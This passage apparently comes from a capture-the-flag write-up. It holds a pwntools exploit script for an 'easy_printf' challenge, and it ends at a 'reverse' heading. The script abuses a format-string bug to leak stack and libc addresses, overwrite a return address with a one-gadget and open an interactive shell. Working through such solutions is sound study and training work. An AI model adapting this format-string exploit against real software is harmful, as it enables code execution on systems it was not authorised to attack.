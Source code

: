 ```python
		p = process("./easy_printf")
		gdb.attach(p,"b *0x000000000400846")
	p.recvuntil("write down your name")
	# t = raw_input('guess: ')
	t = 0x7
	stdout_fileno = (int(t) << 12) | 0x690
	p.send("A"*0x10+p16(stdout_fileno))
	pause()
	
	buf_addr = 0x601060
	payload =  "%{}c%28$hhn%{}c%58$hn".format(2,0x2a6).ljust(0x18,'_')
	payload += fmtstr(9,buf_addr,p64(0x000000000400814)[:3],0x2ab)
	p.send(payload)
	pause()
	
	
	payload =  "%{}c%23$hhn%35$p-%36$p^%37$p-%38$p-%39$p*%40$p-".format(0x14)
	p.send(payload)
	pause()
	p.recvuntil("^")
	stack = int(p.recvuntil('-',drop=True),16)
	p.recvuntil("*")
	libc.address = int(p.recvuntil('-',drop=True),16)-0x20837
	info("stack : " + hex(stack))
	info("libc : " + hex(libc.address))
	onegadget = 0xf1147+libc.address
	
	ret_addr = stack - 0x1e8
	payload =  "%{}c%23$hhn".format(0x14).ljust(0x10,'_')
	payload += fmtstr(15,ret_addr,p64(onegadget)[:2],0x19)
	p.send(payload)
	pause()
	# :0000000000400865                 retn
	offset = 13
	payload =  "%{}c%16$hhn%{}c%17$hn".format(ord(p64(onegadget)[2:3]),0x865-ord(p64(onegadget)[2:3])).ljust(0x18,'_')
	payload += p64(ret_addr+2)+p64(ret_addr-8)
	payload = payload.ljust(0x80,"\x00")
	p.send(payload)
	p.interactive()
if __name__ == "__main__":
	libc = ELF("./libc.so",checksec=False)
	main(args['REMOTE'])
```



## reverse

### bwarm
